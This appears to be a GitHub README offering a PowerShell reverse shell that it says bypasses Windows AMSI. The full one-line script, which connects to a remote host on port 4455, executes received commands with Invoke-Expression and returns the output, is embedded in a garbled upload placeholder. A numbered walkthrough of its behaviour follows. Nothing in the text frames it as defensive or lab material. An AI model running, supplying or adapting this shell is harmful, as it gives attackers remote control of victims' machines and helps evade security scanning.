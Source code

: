 # PowerShell_Reverse_Shell_AMSI_Bypass
This script is a reverse shell written in PowerShell capable of bypassing the Windows AMSI.

[Uplo$h="10.10.10.10";$p=4455;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$r=New-Object IO.StreamReader($s);$w=New-Object IO.StreamWriter($s);$w.AutoFlush=$true;$b=New-Object System.Byte[] 1024;while($c.Connected){while($s.DataAvailable){$d=$s.Read($b,0,$b.Length);$e=([text.encoding]::UTF8).GetString($b,0,$d-1)}if($c.Connected -and $e.Length -gt 1){$o=try{Invoke-Expression $e 2>&1}catch{$_};$w.Write("$o`n");$e=$null}}$c.Close();$s.Close();$r.Close();$w.Close()
ading reverse.ps1…]()

1. Connection Setup:
 - It connects to a remote host (10.10.10.10) on port 4455 using a TCP client.
 - A network stream is established for data transmission.

2. Data Handling:
 - It continuously listens for incoming data from the remote host.
 - Incoming data (commands) is read as UTF-8 encoded text, interpreted, and executed on the local system using Invoke-Expression.

3. Response Transmission:
 - The output or errors resulting from the executed commands are sent back to the remote host over the same TCP connection.

4. Loop Behavior:
 - The script runs in a loop as long as the TCP connection is active, ensuring a continuous back-and-forth communication.

5. Cleanup:
 - Once the connection is closed, all resources (the TCP client, stream, and readers/writers) are properly disposed of.


![ReverseShell](https://github.com/user-attachments/assets/b05cdcf4-5fd6-4463-8802-2a53dcb3871b)
